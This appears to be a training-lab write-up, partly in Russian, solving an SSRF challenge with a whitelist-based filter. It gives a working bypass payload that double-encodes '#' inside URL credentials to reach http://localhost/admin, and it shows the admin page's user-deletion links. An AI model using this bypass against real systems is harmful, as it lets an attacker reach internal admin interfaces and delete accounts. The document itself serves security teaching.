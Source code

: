 # SSRF with whitelist-based input filter
EXPERT

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

The developer has deployed an anti-SSRF defense you will need to bypass.

## Решение
Форма проверки наличия товара отправляет запрос:

`stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1`

Декодируя из URL-encoding:

`stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1`

URL с localhost не проходит валидацию: `stockApi=http://localhost/admin`

`"External stock check host must be stock.weliketoshop.net"`


Если закодировать символ "#" в "%2523", парсер фронт-сервера воспримет localhost:80%2523 как пару логин и пароль, где localhost - логин, а "80%2523" - пароль. Обработав этот URL, фронт-сервер раскодирует %2523 в %23 и передаст его в таком виде серверу бэкенда.

`stockApi=http://localhost:80%2523@stock.weliketoshop.net/admin` -> `stockApi=http://localhost:80%23@stock.weliketoshop.net/admin` -> `stockApi=http://localhost:80#@stock.weliketoshop.net/admin`

```
<section>
    <h1>Users</h1>
    <div>
        <span>wiener - </span>
        <a href="/admin/delete?username=wiener">Delete</a>
    </div>
    <div>
        <span>carlos - </span>
        <a href="/admin/delete?username=carlos">Delete</a>
    </div>
</section>
```
